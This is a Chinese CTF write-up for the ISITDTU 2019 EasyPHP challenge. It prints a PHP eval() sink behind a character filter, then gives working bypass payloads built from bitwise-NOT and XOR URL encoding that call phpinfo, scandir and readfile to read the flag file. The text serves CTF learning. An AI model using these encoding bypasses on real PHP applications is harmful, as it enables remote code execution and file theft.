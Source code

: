 题目戳这👉<a href="https://buuoj.cn/challenges#[ISITDTU%202019]EasyPHP">[ISITDTU 2019]EasyPHP</a>

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

> 1. \x00- 0-9         匹配\x00到\x20(空格)，数字0-9
> 2. '、"、`、$、&、.、,、|、[、{、_、d、e、f、g、o、p、s、\x7F

> `count_chars`是用于统计字符串的，这里选择模式3，返回一个字符串，为第一个参数里面每个不同的字符
> 第二个if翻译一下就是 **不同的字符不能超过13个**

下面脚本找出php能通过上面两个if的函数

```php
<?php
$funcs = get_defined_functions();//返回所有内置定义函数
foreach($funcs['internal'] as $func){
    if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $func) ) continue;
    if ( strlen(count_chars(strtolower($func), 0x3)) > 0xd ) continue;
    echo $func.PHP_EOL;
}
```

> bcmul、rtrim、trim、ltrim、chr、link、unlink、tan
> atan、atanh、tanh、intval、mail、min、max

都挺难利用的这些函数

题目没有过滤`~`和`^`，可以试试取反、异或绕过

```php
<?php
echo urlencode(~'phpinfo');
// _=(~%8F%97%8F%96%91%99%90)();
```

发现disable_functions过滤挺多系统函数的
![image-20221019142114318](../images/image-20221019142114318.png)

或许不用执行系统命令，一些php内置函数就能拿到flag

```php
<?php
// print_r(scandir(.)); 打印当前目录下的所有文件名
echo urlencode(~'print_r').PHP_EOL;
echo urlencode(~'scandir').PHP_EOL;
echo urlencode(~'.').PHP_EOL;
// (~%8F%8D%96%91%8B%A0%8D)(~%8C%9C%9E%91%9B%96%8D(%D1));
```

```php
<?php
$a = '(~%8F%8D%96%91%8B%A0%8D)(~%8C%9C%9E%91%9B%96%8D(%D1));';
echo strlen(count_chars(strtolower($a), 0x3)); //16
```

长度16大于13，无法绕过第二个if，需要减少3个不同的字符。

可以通过几个字符来异或得到新的字符，先统计一下`print_r(scandir(.));`出现的字符

```php
<?php
$data = "print_r(scandir(.));";
echo count_chars($data, 3);
// ().;_acdinprst
```

```python
# 至少要三个字符才能异或出新的
_str = 'acdips'
target = 'ntr'

for m in target:
    for a in _str:
        for b in _str:
            for c in _str:
                if ord(a) ^ ord(b) ^ ord(c) == ord(m):
                    print("{} = {}^{}^{}".format(m, a, b, c))
```

剔除掉一些异或的排列组合，得到如下：

> n = c^d^i
> t = c^d^s
> r = a^c^p

为了统一为异或运算，`~`可以改成`^0xff`    下面是我蹩脚的脚本

```python
def convert(data, _data):
    pad = [list(_data), list('%FF%FF%FF%FF%FF%FF%FF'), list('%FF%FF%FF%FF%FF%FF%FF')]
    j = 0
    for i in data:
        if i == 'n':
            pad[0][j * 3 + 1: j * 3 + 3] = '9C'
            pad[1][j * 3 + 1: j * 3 + 3] = '9B'
            pad[2][j * 3 + 1: j * 3 + 3] = '96'
        elif i == 't':
            pad[0][j * 3 + 1: j * 3 + 3] = '9C'
            pad[1][j * 3 + 1: j * 3 + 3] = '9B'
            pad[2][j * 3 + 1: j * 3 + 3] = '8C'
        elif i == 'r':
            pad[0][j * 3 + 1: j * 3 + 3] = '9E'
            pad[1][j * 3 + 1: j * 3 + 3] = '9C'
            pad[2][j * 3 + 1: j * 3 + 3] = '8F'
        j += 1
    res = []
    for k in pad:
        res.append(''.join(k))
    print(res)
    return res


def brace_up_xor(pad):
    padding = '%FF%FF%FF%FF%FF%FF%FF'
    return '(' + pad[0] + ')' + '^(' + pad[1] + ')' + '^(' + pad[2] + ')' + '^(' + padding + ')'


x = 'print_r'
_x = '%8F%8D%96%91%8B%A0%8D'
x_pad = convert(x, _x)
a = brace_up_xor(x_pad)
y = 'scandir'
_y = '%8C%9C%9E%91%9B%96%8D'
y_pad = convert(y, _y)
b = brace_up_xor(y_pad)
print('(' + a + ')' + '(' + '(' + b + ')' + '((%D1)^(%FF))' + ');')
```

![image-20221019154737189](../images/image-20221019154737189.png)

直接访问flag文件返回403 Forbidden

最后用`readfile(end(scandir(.)))`去读

此时又多出了一些字符，处理方法同上